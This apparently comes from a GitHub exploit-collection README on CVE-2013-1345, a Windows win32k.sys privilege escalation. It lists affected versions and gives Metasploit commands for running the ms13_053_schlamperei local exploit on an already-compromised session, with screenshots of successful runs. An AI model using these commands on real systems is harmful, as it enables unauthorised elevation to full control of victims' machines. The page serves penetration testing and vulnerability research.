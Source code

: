 ### CVE-2013-1345

#### Describe

win32k.sys in the kernel-mode drivers in Microsoft Windows XP SP2 and SP3, Windows Server 2003 SP2, Windows Vista SP2, Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8, Windows Server 2012, and Windows RT does not properly handle objects in memory, which allows local users to gain privileges via a crafted application, aka "Win32k Vulnerability."

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         | SP1    | &#10004; |
| Windows 8           |                  |         |        |                    |
| Windows Rt          |                  |         |        |                    |
| Windows Server 2003 |                  |         | SP2    |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### Utilization

> X86 Utilization

Test system Windows 7 SP1 x86 ，Use MSF directly, we have been online.

```
use exploit/windows/local/ms13_053_schlamperei
set SESSION 2 #你上线机器的session
run
```

![image-20200822151416515](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2013-1345_win7_x86.png)

Windows Server 2003 SP2 X86 and Windows Server 2003 R2 SP2 X86 are successful, but the file does not have the source code only exe executable

Windows Sever 2003 SP2 x86 GIF

![17](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2013-1345_win2003_x86.gif)

Windows Sever 2003 R2 SP2 x86 GIF

![18](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2013-1345_win2003_x86_2.gif)

